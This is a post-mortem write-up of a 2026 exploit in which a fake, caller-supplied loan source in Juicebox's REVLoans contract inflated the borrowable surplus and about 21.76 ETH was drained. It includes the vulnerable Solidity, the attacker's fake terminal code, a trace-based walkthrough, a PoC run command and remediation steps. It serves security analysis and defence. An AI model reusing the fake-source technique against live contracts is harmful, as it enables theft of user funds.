



# Juicebox REVLoans Exploit — Trust-on-First-Use of a Caller-Supplied Loan Source Inflates Borrowable Surplus

> **Vulnerability classes:** vuln/logic/missing-validation · vuln/access-control/missing-auth

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains several unrelated
> PoCs that do not all compile together, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source (mainnet bytecode at the fork block):
> [src_REVLoans.sol](sources/REVLoans_1880D8/src_REVLoans.sol).

---

## Key info

| | |
|---|---|
| **Loss** | ~21.76 ETH — **21.764969886576733610 ETH** drained from Juicebox revnet #3's treasury via `JBMultiTerminal` ([attack tx](https://etherscan.io/tx/0x9adbd62355eb72b4ff6c58716a503133672ed9317ab930a4c6aa31c7a1a8f938)) |
| **Vulnerable contract** | `REVLoans` — [`0x1880D832aa283d05b8eAB68877717E25FbD550Bb`](https://etherscan.io/address/0x1880D832aa283d05b8eAB68877717E25FbD550Bb#code) |
| **Victim pool/vault** | Juicebox revnet **#3** treasury, held in `JBMultiTerminal` [`0x2dB6d704058E552DeFE415753465df8dF0361846`](https://etherscan.io/address/0x2dB6d704058E552DeFE415753465df8dF0361846) |
| **Attacker EOA** | [`0x23245F620d1e910ad76e6B6De4f8284A53C9Ad2d`](https://etherscan.io/address/0x23245F620d1e910ad76e6B6De4f8284A53C9Ad2d) |
| **Attacker contract** | Direct EOA call + an attacker-deployed **fake loan source** (`FakeLoanSourceTerminal`, on-chain `0x5615…b72f` in the PoC) |
| **Attack tx** | [`0x9adbd62355eb72b4ff6c58716a503133672ed9317ab930a4c6aa31c7a1a8f938`](https://etherscan.io/tx/0x9adbd62355eb72b4ff6c58716a503133672ed9317ab930a4c6aa31c7a1a8f938) |
| **Chain / block / date** | Ethereum mainnet / fork block **24,917,718** / April 2026 |
| **Compiler / optimizer** | Solidity **v0.8.23+commit.f704f362**, optimizer **enabled, 150 runs** (from `sources/REVLoans_1880D8/_meta.json`) |
| **Bug class** | Trust-on-first-use of an unverified, caller-supplied loan **source** (terminal + token). A fake source self-reports inflated accounting (36 decimals + an arbitrary `useAllowanceOf` return) so `totalBorrowedFrom` is booked without any real assets moving; this phantom borrow then inflates the borrowable surplus, letting tiny collateral pull real ETH from the genuine terminal. |

---

## TL;DR

1. `REVLoans.borrowFrom()` ([src_REVLoans.sol:483-560](sources/REVLoans_1880D8/src_REVLoans.sol#L483-L560)) lets *anyone* open a loan against a revnet, passing a `REVLoanSource{token, terminal}` struct **of their own choosing**. The contract never checks that `source.terminal` is a real, directory-registered Juicebox terminal — it simply calls into it.

2. On the first use of a given `(revnetId, terminal, token)` triple, `_addTo()` ([:779-851](sources/REVLoans_1880D8/src_REVLoans.sol#L779-L851)) **registers that source** (`isLoanSourceOf = true`, pushes it into `_loanSourcesOf[revnetId]`) and adds the loan to `totalBorrowedFrom[revnetId][terminal][token]` — *before and independent of* any real asset transfer.

3. The attacker deploys a `FakeLoanSourceTerminal` that lies on three method calls: `accountingContextForTokenOf` reports **36 decimals** (vs the native token's 18), `useAllowanceOf` simply **returns whatever amount it was asked to pay out** (no real transfer), and `transfer`/`pay` are no-ops returning `true`/`0`.

4. **Step A (register the fake source):** the attacker calls `borrowFrom` with `source = {token: fake, terminal: fake}`. `_borrowAmountFrom` asks the fake terminal for its accounting context (36 decimals) and computes a borrowable amount from the revnet's surplus; `_addTo` then books `totalBorrowedFrom[3][fake][fake] = 444,895,155,932,119,291,075,904,440,330` ([output.txt:1753-1754](output.txt)) — a phantom ~4.45e29 (36-decimal) borrow — while the fake `useAllowanceOf` "pays out" nothing real ([output.txt:1690-1691](output.txt)).

5. **Step B (drain real ETH):** the attacker calls `borrowFrom` again with the *real* native-ETH source `{token: 0x…EEEe, terminal: JBMultiTerminal}`. Because the revnet now appears to have a large outstanding loan, `_borrowableAmountFrom` inflates the proportional cash-out: a microscopic collateral burn of **65,301,882,816,341** revnet-#3 tokens (~6.5e-5) borrows **23.154329666570993199 ETH** (~23.15) from the genuine terminal ([output.txt:1796](output.txt)).

6. After the protocol's REV fee (~0.2315 ETH) and source fee (~0.5789 ETH), the genuine `JBMultiTerminal` `useAllowanceOf` sends **21.765069886576733610 ETH** straight to the attacker's fallback ([output.txt:1988](output.txt)). Net of the tiny seed and gas, the PoC asserts a profit of **21.764969886576733610 ETH** ([output.txt:1539](output.txt), [output.txt:2112](output.txt)).

The single defect is that `REVLoans` *trusts the borrower-supplied terminal* both as the registrar of `totalBorrowedFrom` and as the oracle of its own decimals/payout — so a fake terminal can fabricate the "I have lent X" bookkeeping that the proportional borrow math then treats as real surplus.

---

## Background — what REVLoans does

`REVLoans` ([source](sources/REVLoans_1880D8/src_REVLoans.sol)) is the Juicebox "revnet" borrowing contract. A revnet user can lock revnet project tokens as collateral and borrow assets out of the revnet's terminal up to the **cash-out value** of that collateral. Loans are represented as ERC-721 NFTs; collateral tokens are *burned* on borrow and re-minted on repay so the revnet's token supply stays orderly. An upfront fee (min 2.5%, plus a 1% REV fee, plus a borrower-chosen prepaid fee) is taken when the loan opens.

The borrowable amount is computed proportionally in `_borrowableAmountFrom` ([:292-333](sources/REVLoans_1880D8/src_REVLoans.sol#L292-L333)):

> `borrowable = cashOutFrom(surplus = totalSurplus + totalBorrowed, cashOutCount = collateral, totalSupply = supply + totalCollateral, cashOutTaxRate)`

Crucially, the **`totalBorrowed`** term is added to the surplus. The idea is "money already lent out is still backing the revnet, so it counts toward what new borrowers can draw against." `totalBorrowed` is the sum, over every registered loan source, of `totalBorrowedFrom[revnetId][terminal][token]`, each normalized via the *source terminal's own* `accountingContextForTokenOf` decimals/currency ([`_totalBorrowedFrom`, :430-466](sources/REVLoans_1880D8/src_REVLoans.sol#L430-L466)).

On-chain parameters at the fork block (read from the trace):

| Parameter | Value | Source |
|---|---|---|
| Revnet under attack | **#3** | PoC `REVNET_ID = 3` |
| Controller (`JBController`) | `0x27da30646502e2f642bE5281322Ae8C394F7668a` | [output.txt:1660](output.txt) |
| `JBMultiTerminal` (genuine) | `0x2dB6d704058E552DeFE415753465df8dF0361846` | [output.txt:1551](output.txt) |
| `JBPermissions` | `0x04fD6913d6c32D8C216e153a43C04b1857a7793d` | [output.txt:1553](output.txt) |
| Native token sentinel | `0x…EEEe`, 18 decimals, currency `61166` | [output.txt:1679](output.txt) |
| Revnet #3 native surplus (18-dec) | 24,373,078,596,390,645,819 (~24.37 ETH) | [output.txt:1778](output.txt) |
| Same surplus re-scaled to 36 dec (fake source path) | 24,373,078,596,390,645,819,000,000,000,000,000,000 (~24.37) | [output.txt:1674](output.txt) |
| `MIN_PREPAID_FEE_PERCENT` | 25 (2.5%) | [:92](sources/REVLoans_1880D8/src_REVLoans.sol#L92) |
| `REV_PREPAID_FEE_PERCENT` | 10 (1%) | [:89](sources/REVLoans_1880D8/src_REVLoans.sol#L89) |
| Burn permission id | **10** (collateral burn) | PoC `BURN_PERMISSION_ID = 10`, [output.txt:1644](output.txt) |

The whole game: the revnet's genuine native surplus is only ~24.37 ETH. The attacker's real collateral entitles them to a trivial fraction of it — but by first booking a gigantic *phantom* `totalBorrowed`, they inflate the surplus the proportional formula sees, so a near-zero collateral burn maps onto ~23.15 real ETH.

---

## The vulnerable code

### 1. `borrowFrom` accepts a caller-supplied source and never validates the terminal

```solidity
function borrowFrom(
    uint256 revnetId,
    REVLoanSource calldata source,            // ← attacker-chosen {token, terminal}
    uint256 minBorrowAmount,
    uint256 collateralCount,
    address payable beneficiary,
    uint256 prepaidFeePercent
)
    public
    override
    returns (uint256 loanId, REVLoan memory)
{
    address revnetOwner = PROJECTS.ownerOf(revnetId);
    if (revnetOwner != address(REVNETS)) revert REVLoans_RevnetsMismatch(revnetOwner, address(REVNETS));
    if (collateralCount == 0) revert REVLoans_ZeroCollateralLoanIsInvalid();
    // ... prepaid-fee bounds check ...

    REVLoan storage loan = _loanOf[loanId];
    loan.source = source;                     // ← stored verbatim, terminal never checked against DIRECTORY
    // ...
    uint256 borrowAmount = _borrowAmountFrom({loan: loan, revnetId: revnetId, collateralCount: collateralCount});
    // ...
    _adjust({ loan: loan, revnetId: revnetId, newBorrowAmount: borrowAmount, ... });
}
```
([src_REVLoans.sol:483-560](sources/REVLoans_1880D8/src_REVLoans.sol#L483-L560))

The only validation is `revnetOwner == REVNETS` (the revnet itself is legitimate) and a non-zero collateral. The `source.terminal` is **never** checked against `DIRECTORY.isTerminalOf(revnetId, terminal)` — it can be any contract the attacker deploys.

### 2. `_addTo` registers the source on first use and books `totalBorrowedFrom` before any real transfer

```solidity
function _addTo(REVLoan memory loan, uint256 revnetId, uint256 addedBorrowAmount, uint256 sourceFeeAmount, address payable beneficiary) internal {
    // Register the source if this is the first time its being used for this revnet.
    if (!isLoanSourceOf[revnetId][loan.source.terminal][loan.source.token]) {
        isLoanSourceOf[revnetId][loan.source.terminal][loan.source.token] = true;
        _loanSourcesOf[revnetId].push(REVLoanSource({token: loan.source.token, terminal: loan.source.terminal}));
    }

    // Increment the amount of the token borrowed from the revnet from the terminal.
    totalBorrowedFrom[revnetId][loan.source.terminal][loan.source.token] += addedBorrowAmount;   // ⚠️ booked first

    uint256 netAmountPaidOut;
    {
        JBAccountingContext memory accountingContext =
            loan.source.terminal.accountingContextForTokenOf({projectId: revnetId, token: loan.source.token}); // ⚠️ fake answers
        netAmountPaidOut = loan.source.terminal.useAllowanceOf({                                                // ⚠️ fake "pays" nothing
            projectId: revnetId, token: loan.source.token, amount: addedBorrowAmount, currency: accountingContext.currency,
            minTokensPaidOut: 0, beneficiary: payable(address(this)), feeBeneficiary: beneficiary, memo: "Lending out to a borrower"
        });
    }
    // ...
    _transferFrom({ from: address(this), to: beneficiary, token: loan.source.token, amount: netAmountPaidOut - revFeeAmount - sourceFeeAmount });
}
```
([src_REVLoans.sol:779-851](sources/REVLoans_1880D8/src_REVLoans.sol#L779-L851))

For the fake source, `useAllowanceOf` returns the full amount but transfers nothing real; the subsequent `_transferFrom` uses the fake token's no-op `transfer`. The contract never reconciles `totalBorrowedFrom` against assets it actually received — so the phantom borrow sticks.

### 3. The phantom `totalBorrowedFrom` re-enters the borrowable-surplus math

```solidity
function _borrowableAmountFrom(uint256 revnetId, uint256 collateralCount, uint256 decimals, uint256 currency, IJBTerminal[] memory terminals)
    internal view returns (uint256)
{
    // ...
    uint256 totalBorrowed = _totalBorrowedFrom({revnetId: revnetId, decimals: decimals, currency: currency});
    uint256 totalSupply   = CONTROLLER.totalTokenSupplyWithReservedTokensOf(revnetId);
    uint256 totalCollateral = totalCollateralOf[revnetId];

    return JBCashOuts.cashOutFrom({
        surplus:      totalSurplus + totalBorrowed,   // ⚠️ phantom borrow inflates the surplus
        cashOutCount: collateralCount,
        totalSupply:  totalSupply + totalCollateral,
        cashOutTaxRate: currentStage.cashOutTaxRate()
    });
}
```
([src_REVLoans.sol:292-333](sources/REVLoans_1880D8/src_REVLoans.sol#L292-L333))

`_totalBorrowedFrom` ([:430-466](sources/REVLoans_1880D8/src_REVLoans.sol#L430-L466)) normalizes each source's booked total using the *source terminal's own decimals*. The fake terminal claims **36 decimals**, so the phantom total inflates the surplus term that the next, real loan draws against.

### 4. The attacker's fake source (PoC)

```solidity
function accountingContextForTokenOf(uint256, address token) external pure returns (JBAccountingContext memory context) {
    // The historical fake source reported 36 decimals, inflating the recorded fake borrow by 1e18.
    context = JBAccountingContext({token: token, decimals: 36, currency: ETH_CURRENCY});
}
function useAllowanceOf(uint256, address, uint256 amount, uint256, uint256, address payable, address, string calldata)
    external pure returns (uint256) { return amount; }      // "pays out" without moving assets
function transfer(address, uint256) external pure returns (bool) { return true; }
```
([test/JuiceboxREVLoans_exp.sol:172-203](test/JuiceboxREVLoans_exp.sol#L172-L203))

---

## Root cause — why it was possible

The defect is a **trust-on-first-use of an unverified, caller-supplied loan source** that is simultaneously:

1. **The registrar of accounting it benefits from.** `_addTo` writes `totalBorrowedFrom[revnetId][source.terminal][source.token] += addedBorrowAmount` ([:795](sources/REVLoans_1880D8/src_REVLoans.sol#L795)) before any real asset moves, and `borrowFrom` performs **zero** check that `source.terminal` is a directory-registered Juicebox terminal ([:483-520](sources/REVLoans_1880D8/src_REVLoans.sol#L483-L520)). Any address the attacker deploys becomes a "loan source" the first time it is used.

2. **The oracle of its own units.** `_totalBorrowedFrom` and `_borrowAmountFrom` call `source.terminal.accountingContextForTokenOf(...)` and trust the returned `decimals`/`currency` ([:448-449](sources/REVLoans_1880D8/src_REVLoans.sol#L448-L449), [:353-354](sources/REVLoans_1880D8/src_REVLoans.sol#L353-L354)). A fake terminal returning 36 decimals scales the phantom borrow up by 1e18.

3. **The payer the contract never reconciles.** `_addTo` treats `useAllowanceOf`'s return value as the amount paid out ([:805-814](sources/REVLoans_1880D8/src_REVLoans.sol#L805-L814)) without verifying that `REVLoans` actually received those assets. The fake source returns a large number while transferring nothing.

The phantom `totalBorrowed` is then summed into the **surplus** used by `JBCashOuts.cashOutFrom` ([:327-332](sources/REVLoans_1880D8/src_REVLoans.sol#L327-L332)). Because borrowable amount is *proportional to surplus*, inflating surplus with a fictional loan lets near-zero genuine collateral borrow the revnet's *real* ETH from the *real* `JBMultiTerminal`. The first (fake) loan moves no money; the second (real) loan is the cash-out.

The intended invariant — "`totalBorrowedFrom` reflects assets that genuinely left a genuine terminal" — is silently violated because the contract lets the borrower supply, register, and self-attest the source in one unguarded call.

---

## Preconditions

- The revnet must be a legitimately-deployed revnet (`PROJECTS.ownerOf(revnetId) == REVNETS`). Revnet #3 satisfied this. ([output.txt:1654-1655](output.txt))
- The attacker must hold a *tiny* amount of revnet-#3 project tokens to post as collateral and must grant `REVLoans` the **burn permission (id 10)** so collateral can be burned. The PoC mints tokens by paying 0.0001 ETH into the terminal ([output.txt:1564](output.txt)) and grants the permission via `JBPermissions.setPermissionsFor` ([output.txt:1644-1652](output.txt)).
- No special privilege, signature, or whitelisting is required to register a loan source — `borrowFrom` is permissionless and binds the source on first use.
- Working capital is negligible: the PoC seeds the attacker with **1 ETH** (`vm.deal`, [output.txt:1560](output.txt)) of which only ~0.0001 ETH is actually spent before the drain. The attack is self-funding within the transaction.

---

## Attack walkthrough (with on-chain numbers from the trace)

All raw values are 18-decimal wei unless noted; human approximations in parentheses. Revnet #3's genuine native surplus stays ~24.37 ETH throughout; the exploit manipulates the *accounting*, not the pool composition, until the final real draw.

| # | Step | Key on-chain value | Treasury / accounting state | Effect |
|---|------|--------------------|------------------------------|--------|
| 0 | **Seed + buy collateral** — `vm.deal(attacker, 1e18)`; `JBMultiTerminal.pay{value: 1e14}` mints revnet-#3 tokens to attacker | pay value `100000000000000` (~0.0001 ETH) → mints `91613283200000000` (~0.0916) revnet tokens ([output.txt:1564](output.txt), [output.txt:1606](output.txt)) | revnet #3 native surplus ~24.37 ETH | Attacker now holds tiny collateral. |
| 1 | **Grant burn permission** — `JBPermissions.setPermissionsFor(operator = REVLoans, permissionIds = [10])` | permission id `10` ([output.txt:1644-1652](output.txt)) | unchanged | Lets `REVLoans` burn collateral. |
| 2 | **Register fake source** — `borrowFrom(3, {fake, fake}, collateral = 22903320800000000)` | fake `accountingContextForTokenOf` → **36 decimals** ([output.txt:1657](output.txt)); fake `useAllowanceOf` returns `444895155932119291075904440330` (~4.45e29 in 36-dec) ([output.txt:1690-1691](output.txt)) | `totalBorrowedFrom[3][fake][fake] = 444,895,155,932,119,291,075,904,440,330` ([output.txt:1753-1754](output.txt)) | **Phantom borrow booked; no real assets moved.** Source registered in `_loanSourcesOf[3]`. |
| 3 | **Assert registration** — `totalBorrowedFrom(3, fake, fake) > 0` | `4.448e29 > 0` ✓ ([output.txt:1753-1755](output.txt)) | phantom total persists | Confirms the fake source is now a counted loan source. |
| 4 | **Borrow real ETH** — `borrowFrom(3, {0x…EEEe, JBMultiTerminal}, collateral = 65301882816341)` | native surplus (18-dec) `24373078596390645819` (~24.37) ([output.txt:1778](output.txt)); genuine `useAllowanceOf` pays out `23154329666570993199` (~23.15 ETH) ([output.txt:1796](output.txt)) | revnet #3 surplus drained by ~23.15 ETH | Tiny collateral (~6.5e-5) borrows ~23.15 real ETH — only possible because the phantom borrow inflated the surplus. |
| 5 | **Fees taken** — REV fee + source fee paid back into the terminal | REV fee `231543296665709931` (~0.2315), source fee `578858241664274829` (~0.5789) ([output.txt:1909](output.txt), [output.txt:2018](output.txt)) | partially refunds the terminal | Net ETH to attacker = 23.154 − 0.2315 − 0.5789. |
| 6 | **Payout to attacker** — genuine terminal forwards net ETH to attacker fallback | `Attacker::fallback{value: 21765069886576733610}` (~21.765) ([output.txt:1988](output.txt)) | terminal down ~23.15 ETH gross | Attacker receives the drained ETH. |
| 7 | **Settle** — profit asserted | `Attacker ETH profit: 21.764969886576733610` ([output.txt:1539](output.txt), [output.txt:2112](output.txt)); `assertGt(profit, 21 ether)` ✓ ([output.txt:2113](output.txt)) | — | Net profit after seed/gas. |

**Why a 6.5e-5 collateral borrows 23.15 ETH:** `cashOutFrom` is proportional to `surplus / (supply + collateral)`. Revnet #3's *honest* native surplus is only ~24.37 ETH ([output.txt:1778](output.txt)), but the borrowable amount is computed against `surplus = totalSurplus + totalBorrowed`. By first booking a ~4.45e29 (36-decimal-scaled) phantom `totalBorrowed`, the attacker makes the revnet *appear* to have an enormous amount already lent out and therefore an enormous backing surplus — so a microscopic collateral burn maps onto ~23.15 ETH of the *real* surplus the genuine terminal actually holds.

### Profit / loss accounting (ETH)

| Item | Amount (wei) | ~Human |
|---|---:|---:|
| Attacker balance before (after seed) | 1,000,000,000,000,000,000 | 1.000 |
| Spent — collateral purchase `pay{value:1e14}` | 100,000,000,000,000 | 0.0001 |
| Real ETH borrowed from genuine terminal (`useAllowanceOf`) | 23,154,329,666,570,993,199 | ~23.154 |
| − REV fee paid back | 231,543,296,665,709,931 | ~0.2315 |
| − Source fee paid back | 578,858,241,664,274,829 | ~0.5789 |
| Net ETH delivered to attacker fallback | 21,765,069,886,576,733,610 | ~21.765 |
| **Net profit asserted by PoC** | **21,764,969,886,576,733,610** | **~21.7650** |

The ~21.765 ETH net profit ([output.txt:1539](output.txt)) equals the gross draw minus the two fees minus the ~0.0001 ETH collateral buy and gas — i.e. the attacker walked off with essentially the revnet's available native surplus.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as Attacker (EOA)
    participant T as JBMultiTerminal (genuine)
    participant P as JBPermissions
    participant L as REVLoans
    participant F as FakeLoanSourceTerminal

    Note over T: revnet #3 native surplus ~24.37 ETH

    rect rgb(232,245,233)
    Note over A,T: Step 0-1 — bootstrap tiny collateral
    A->>T: pay{value: 0.0001 ETH}(projectId=3)
    T-->>A: mint ~0.0916 revnet-#3 tokens
    A->>P: setPermissionsFor(operator=REVLoans, ids=[10] burn)
    end

    rect rgb(255,243,224)
    Note over A,F: Step 2 — register fake source (no real assets)
    A->>L: borrowFrom(3, {fake, fake}, collateral)
    L->>F: accountingContextForTokenOf() ⇒ decimals = 36
    L->>L: totalBorrowedFrom[3][fake][fake] += 4.448e29
    L->>F: useAllowanceOf(...) ⇒ returns 4.448e29 (transfers nothing)
    Note over L: phantom borrow booked; surplus appears huge
    end

    rect rgb(255,235,238)
    Note over A,T: Step 4-6 — draw REAL ETH against inflated surplus
    A->>L: borrowFrom(3, {0xEEEe, JBMultiTerminal}, collateral=6.5e-5)
    L->>T: useAllowanceOf(... 23.154 ETH ...)
    T-->>L: 23.154 ETH (real)
    L->>T: pay REV fee 0.2315 + source fee 0.5789
    L-->>A: fallback{value: 21.765 ETH}
    end

    Note over A: Net +21.765 ETH (revnet #3 honest surplus)
```

### Treasury / accounting state evolution



### The flaw inside `borrowFrom` / `_addTo`



### Why it is theft: borrowable surplus before vs. after the phantom loan



---

## Why each magic number

- **`REVNET_ID = 3`:** the targeted revnet. Its native surplus (~24.37 ETH, [output.txt:1778](output.txt)) is the prize; the attacker only needs `PROJECTS.ownerOf(3) == REVNETS` to pass the single legitimacy check.
- **`projectTokenPayment = 0.0001 ETH`:** the minimal ETH paid into the genuine terminal to mint a sliver of revnet-#3 tokens (~0.0916, [output.txt:1606](output.txt)) to be burned as collateral. Just enough to make `collateralCount != 0`.
- **`BURN_PERMISSION_ID = 10`:** the Juicebox permission that authorizes `REVLoans` to burn the attacker's revnet tokens as collateral; without it, `_addCollateralTo`'s `burnTokensOf` would revert ([output.txt:1705-1706](output.txt)).
- **`fakeSourceCollateral = 22903320800000000` (~0.0229):** the collateral passed to the **fake** `borrowFrom`. Its only purpose is to make the call non-zero so `_addTo` runs and books the phantom `totalBorrowedFrom`; the fake source pays nothing real back.
- **Fake source `decimals = 36`:** the lie that scales the phantom borrow up by 1e18 relative to the native token's 18 decimals, maximizing the surplus inflation in `_totalBorrowedFrom`.
- **`nativeCollateral = 65301882816341` (~6.5e-5):** the *real* collateral for the genuine native-ETH loan. It is deliberately tiny — the inflated surplus means even this microscopic burn maps onto ~23.15 ETH borrowable ([output.txt:1796](output.txt)).
- **`PREPAID_FEE_PERCENT = 25`:** the minimum allowed prepaid fee (`MIN_PREPAID_FEE_PERCENT`, [:92](sources/REVLoans_1880D8/src_REVLoans.sol#L92)); using the floor minimizes upfront cost while still passing the bounds check in `borrowFrom`.
- **`ETH_CURRENCY = 61166`:** Juicebox's currency code for ETH; the fake source reports it so its accounting context lines up with the native token's currency and avoids a price-feed lookup.

---

## Remediation

1. **Whitelist loan sources; never bind one on first caller use.** `borrowFrom` must require that `source.terminal` is a directory-registered terminal for the revnet (e.g. `DIRECTORY.isTerminalOf(revnetId, source.terminal)`) and that `source.token` is an accepted accounting token. Pre-register sources via governance instead of registering whatever a borrower supplies in `_addTo` ([:788-792](sources/REVLoans_1880D8/src_REVLoans.sol#L788-L792)).
2. **Reconcile booked borrow against real assets received.** Before incrementing `totalBorrowedFrom` ([:795](sources/REVLoans_1880D8/src_REVLoans.sol#L795)), measure `_balanceOf(token)` before/after the `useAllowanceOf` call and require that the contract actually received `addedBorrowAmount` (or the net thereof). A source that "pays" without transferring must cause a revert.
3. **Do not trust a caller-supplied terminal as its own decimals/currency oracle.** `_totalBorrowedFrom` and `_borrowAmountFrom` derive scale from `source.terminal.accountingContextForTokenOf` ([:448-449](sources/REVLoans_1880D8/src_REVLoans.sol#L448-L449)). Pin the accounting context from the trusted `DIRECTORY`/`CONTROLLER`, not from the source contract itself, and bound `decimals` to a sane range.
4. **Exclude unverified sources from the borrowable-surplus term.** Only sources whose loans are backed by assets that genuinely left a registered terminal should contribute to `totalBorrowed` in `_borrowableAmountFrom` ([:318-332](sources/REVLoans_1880D8/src_REVLoans.sol#L318-L332)). A phantom loan must never inflate what new borrowers can draw.
5. **Add an invariant/monitor:** for every `(revnetId, terminal, token)`, `totalBorrowedFrom` should be reconstructable from real terminal payouts; alert and pause if the booked total diverges from terminal accounting.

---

## How to reproduce

The PoC runs **offline** against a local anvil fork served from `anvil_state.json` (the test's `createSelectFork` points at `http://127.0.0.1:8545`; the trace labels the fork `"mainnet"` at block 24,917,718). No public RPC is contacted at test time.

```bash
_shared/run_poc.sh 2026-04-JuiceboxREVLoans_exp --mt testExploit -vvvvv
```

- The harness boots a local anvil from the captured `anvil_state.json` and points the fork RPC at `127.0.0.1:8545`, fork block **24,917,718** (`vm.createSelectFork("http://127.0.0.1:8545", 24917718)`, [test/JuiceboxREVLoans_exp.sol:96-97](test/JuiceboxREVLoans_exp.sol#L96-L97)).
- `foundry.toml` sets `evm_version = 'cancun'`; the vulnerable contract was verified under Solidity **0.8.23** with optimizer enabled (150 runs). The local build compiles the harness with a newer solc (the trace shows `Solc 0.8.34`), which does not affect the forked mainnet bytecode under test.
- Result: `[PASS] testExploit()` logging `Attacker ETH profit: 21.764969886576733610`.

Expected tail (from [output.txt:1536-1539](output.txt) and [output.txt:2117-2119](output.txt)):

```
Ran 1 test for test/JuiceboxREVLoans_exp.sol:ContractTest
[PASS] testExploit() (gas: 1564737)
Logs:
  Attacker ETH profit: 21.764969886576733610

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 31.47s (29.93s CPU time)
Ran 1 test suite in 32.02s (31.47s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

---

*Reference: DefimonAlerts — https://x.com/DefimonAlerts/status/2046862935650345139 (Juicebox REVLoans, Ethereum mainnet, ~21.77 ETH).*
